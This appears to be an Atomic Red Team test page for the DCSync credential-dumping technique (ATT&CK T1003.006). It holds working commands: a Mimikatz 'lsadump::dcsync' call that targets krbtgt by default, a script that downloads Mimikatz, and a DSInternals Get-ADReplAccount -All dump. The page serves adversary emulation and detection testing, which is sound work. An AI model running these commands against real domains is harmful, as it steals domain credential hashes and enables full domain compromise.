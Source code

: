 # T1003.006 - DCSync
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/006)
<blockquote>Adversaries may attempt to access credentials and other sensitive information by abusing a Windows Domain Controller's application programming interface (API)(Citation: Microsoft DRSR Dec 2017) (Citation: Microsoft GetNCCChanges) (Citation: Samba DRSUAPI) (Citation: Wine API samlib.dll) to simulate the replication process from a remote domain controller using a technique called DCSync.

Members of the Administrators, Domain Admins, and Enterprise Admin groups or computer accounts on the domain controller are able to run DCSync to pull password data(Citation: ADSecurity Mimikatz DCSync) from Active Directory, which may include current and historical hashes of potentially useful accounts such as KRBTGT and Administrators. The hashes can then in turn be used to create a [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) for use in [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003)(Citation: Harmj0y Mimikatz and DCSync) or change an account's password as noted in [Account Manipulation](https://attack.mitre.org/techniques/T1098).(Citation: InsiderThreat ChangeNTLM July 2017)

DCSync functionality has been included in the "lsadump" module in [Mimikatz](https://attack.mitre.org/software/S0002).(Citation: GitHub Mimikatz lsadump Module) Lsadump also includes NetSync, which performs DCSync over a legacy replication protocol.(Citation: Microsoft NRPC Dec 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCSync (Active Directory)](#atomic-test-1---dcsync-active-directory)

- [Atomic Test #2 - Run DSInternals Get-ADReplAccount](#atomic-test-2---run-dsinternals-get-adreplaccount)


<br/>

## Atomic Test #1 - DCSync (Active Directory)
Active Directory attack allowing retrieval of account information without accessing memory or retrieving the NTDS database.
Works against a remote Windows Domain Controller using the replication protocol.
Privileges required: domain admin or domain controller account (by default), or any other account with required rights.
[Reference](https://adsecurity.org/?p=1729)

**Supported Platforms:** Windows


**auto_generated_guid:** 129efd28-8497-4c87-a1b0-73b9a870ca3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | Targeted Active Directory domain | String | %userdnsdomain%|
| user | Targeted user | String | krbtgt|
| mimikatz_path | Mimikatz windows executable | Path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "lsadump::dcsync /domain:#{domain} /user:#{user}@#{domain}" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
$mimikatz_relative_uri = Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/latest" -UseBasicParsing | Select-Object -ExpandProperty Links | Where-Object -Property href -Like "*/mimikatz_trunk.zip" | Select-Object -ExpandProperty href
Invoke-WebRequest "https://github.com$mimikatz_relative_uri" -UseBasicParsing -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```




<br/>
<br/>

## Atomic Test #2 - Run DSInternals Get-ADReplAccount
The following Atomic will run Get-ADReplAccount from DSInternals.
Upon successful execution, domain and credentials will appear in stdout. 
[Reference](https://www.crowdstrike.com/blog/observations-from-the-stellarparticle-campaign/) CrowdStrike StellerParticle.
https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/

**Supported Platforms:** Windows


**auto_generated_guid:** a0bced08-3fc5-4d8b-93b7-e8344739376e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | String | $ENV:logonserver.TrimStart("&#92;")|


#### Attack Commands: Run with `powershell`! 


```powershell
Get-ADReplAccount -All -Server #{logonserver}
```




#### Dependencies:  Run with `powershell`!
##### Description: DSInternals must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name DSInternals -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['DSInternals']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name DSInternals -Scope CurrentUser -Force
```




<br/>
